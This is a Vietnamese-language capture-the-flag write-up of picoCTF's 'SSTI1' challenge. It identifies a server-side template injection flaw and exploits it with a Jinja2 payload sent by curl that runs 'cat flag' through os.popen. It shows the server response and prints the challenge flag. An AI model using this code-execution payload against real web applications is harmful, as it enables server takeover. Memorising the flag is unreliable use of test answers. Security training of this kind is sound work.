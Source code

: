 # 🧠 Writeup: SSTI1 - PicoCTF 

---

## 📌 **Description**

**_“I made a cool website where you can announce whatever you want! Try it out!_”**  
Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

- **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
##### Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

```bash
#curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
```

Kết quả trả về từ server như sau:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

### Flag : ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`` 
